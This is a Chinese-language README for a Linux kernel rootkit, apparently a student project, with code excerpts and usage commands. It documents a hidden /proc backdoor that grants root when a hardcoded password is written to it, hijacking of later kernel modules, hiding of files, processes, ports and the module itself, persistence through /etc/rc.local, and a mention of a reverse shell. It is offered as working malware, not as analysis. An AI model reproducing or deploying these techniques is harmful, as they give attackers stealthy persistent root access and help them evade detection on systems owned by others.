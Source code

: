 ## 开发者：
Eidos: hide, backdoor, fake news
juhua: consistency
kitten: remote shellreverse

## 参考资料：
libreCrops所提全部功能相关的内容

是一个整合体（缝合怪）。

## 运行环境：
尚没有测试过全部版本，开发时采用的环境为`Ubuntu20.04 + Linux kernel 5.4.81`。但根据5.x中较小的代码变动以及该项目尚未使用`kall_sysm_table`进行函数挂钩，应该适用于大部分5.x版本内核。

涉及的后门在5.15版本无法使用（也不想改了，摆烂
## 主体文件：
`hide.c`为全部功能集成的`main`文件，如需添加功能，在`Makefile`后嵌入新模块并采用类似其余模块的方式进行函数调用即可。

特别注意：包含写保护信息的函数模块`./src/protect.o`需要放在队伍的最后。
```Makefile
hide-objs := ./src/hide.o ./src/backdoor.o ./src/fake.o \
./src/filehide.o ./src/prochide.o ./src/protocolhide.o \
./src/modhide.o ./src/protect.o
```
## 功能简介
### 后门设置：
```C
// 提权所需口令
#define PASSWORD "ELPSYKONGROO"
#define BACKDOOR "STEINSGATE" // 后门需要藏好
#define BACKDOOR_PATH "/proc" // 因此需要特地先藏好这个文件路径
```
本Rootkit设置了提权选项，其所在路径为`/proc/STEINSGATE`，在输入"ELPSYKONGROO"给/proc/STEINSGATE文件时，将会提权为Root。

该后门采用了进程隐藏的方式藏匿起来，无法通过`ls /proc`寻找到。

对应模块文件：`backdoor.c`
### 阻止后续插入模块正常运转：
```C
switch (module->state) {
    case MODULE_STATE_COMING:
        printk(KERN_INFO "Replacing init and exit functions: %s.\n", module->name);
        module->init = fake_init;
        module->exit = fake_exit;
        break;
    default:
        break;
}
```
利用`notifier_block`的链式通知机制，以及利用`data`段存放`module`的做法实现了以下功能：当之后有新的模块嵌入时，其无法正常运转其功能，而是执行`fake_init`和`fake_exit`这些由我们的模块设置好的自定义功能。

经过测试可以支持多个模块的阻止功能。

对应模块文件`fake.c`
### 文件隐藏：
```C
char* hide_path = "default";
char* file_name = "default";
module_param(hide_path, charp, 0000);
MODULE_PARM_DESC(hide_path, "the path of dirent for file hide.");
module_param(file_name, charp, 0000);
MODULE_PARM_DESC(file_name, "the file name to hide.");
```
文件隐藏功能，在默认的情况下不打开：我们通过设置`hide_path`和`file_name`为"default"作为默认值，并判断模块插入后这两个参数的赋值情况来确定是否执行文件隐藏。具体来说如下所示：
```C
if (strcmp("default", hide_path) == 0) {
    return;
}
                
printk(KERN_INFO "Opening the path: %s.\n", hide_path);          
filp = filp_open(hide_path, O_RDONLY, 0);                

if (filp == NULL) return;        
```
其原理为当前文件夹下的`iterate`函数挂钩修改，在此不赘述。

如果我们需要隐藏根目录下的文件"alien"，模块的使用方法为：
```shell
$ sudo insmod hide.ko hide_path="/" file_name="alien"
```
再次在根目录下使用`ls`命令，能够观测到`alien`文件的消失。

对应模块文件`filehide.c`

### 进程隐藏：
进程隐藏与文件隐藏原理保持一致，只是锁定了先前提及的hide_path为常量：
```C
#define PROC_HIDE_PATH "/proc"
```
特别的，由于我们之前设置的后门亦在该文件夹下，需特地把后门隐藏好再说。
```C
module_param(secret_proc, long, S_IRUSR);
MODULE_PARM_DESC(secret_proc, "the secret process number.");
```
若想隐藏进程号为1234的进程，使用方法：
```shell
$ sudo insmod hide.ko secret_proc=1234
```

该过程会让其在文件夹`/proc`下不可见。

对应模块文件：`prochide.c`

### 端口隐藏：
```C
int tcp4 = INT_MAX;
int tcp6 = INT_MAX;
int udp4 = INT_MAX;
int udp6 = INT_MAX;

module_param(tcp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(tcp6, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp4, int, S_IRUSR | S_IWUSR | S_IRGRP);
module_param(udp6, int, S_IRUSR | S_IWUSR | S_IRGRP);

MODULE_PARM_DESC(tcp4, "tcp4 port.");
MODULE_PARM_DESC(tcp6, "tcp6 port.");
MODULE_PARM_DESC(udp4, "udp4 port.");
MODULE_PARM_DESC(udp6, "udp6 port.");
```
端口文件提供了四个可由命令行传递的参数，以模块隐藏TCP4端口为33，TCP6端口为34，UDP4端口为123，UDP6端口为124为例，使用的方法为：
```shell
$ sudo insmod hide.ko tcp4=33 tcp6=34 udp4=123 udp6=124
```

端口隐藏涉及了`seq_file`类型的文件操作函数`show`，通过挂载该函数可以实现端口的隐藏，通过阅读源码可知，四种类型均存放输出信息于`seq_file`数据结构的`buf`载荷之中，以`count`作为当前`buf`长度，在我们使用`netstat`或者`cat /proc/net/tcp`最后以`write`方式输出在终端上。以TCP4隐藏端口为例。
```C
last_count = seq->count;
snprintf(needle, NEEDLE_LEN, ":%04X", tcp4);
ret = real_seq_show_tcp4(seq, v);
last_size = seq->count - last_count;

if (strnstr(seq->buf + seq->count - last_size, needle, last_size)) {
    printk(KERN_INFO "Hiding port %d using needle %s.\n", tcp4, needle);
    seq->count -= last_size; 
}
```
本质上他修正`count`载荷大小为读入该端口信息前的长度，如果我们隐藏的信息是最后一个，那么因为长度不够而干脆不打印。如果我们隐藏的端口信息不是最后一个，那么之后的端口信息将会覆盖之，从而实现隐藏。

对应的模块文件为`protocolhide.c`

### 模块隐藏：
综合使用了用于`seq_file`的隐藏方式和文件隐藏方式，使得模块`hide`的存在信息不可见于`cat /sys/module`和`lsmod`命令。

对应的模块文件为`modhide.c`

### 可持久性（开机可用：
向/etc/rc.local写入insmod命令，开机时尚在内核态，因此可以轻松植入。

为了实现insmod功能，需第一次装载insmod利用后门STEINSGATE进行提权。（口令你懂得

ELPSYKONGROO

特别的，该功能不要和fake模块一起用，不然启动可能会出幺蛾子（不过内核抗错和解决异常能力还是可以的，若可以正常启动也可以

这边设置了一个选项进行选择：
```C
char* enable_consistency = "N";
module_param(enable_consistency, charp, 0000);
MODULE_PARM_DESC(enable_consistency, "whether enable consistency.");
```
会根据此信息选用不同的模块（笑死，大部分模块其实功能都开着
### shellreverse功能：
这个东西肯定不是Eidos来讲（逃

## 源码阅读：
参考`libreCrops`文件夹中的wiki。

## 一些别的：
赶快去写OS，Makefile给我用的像个屎山，代码优化空间巨大。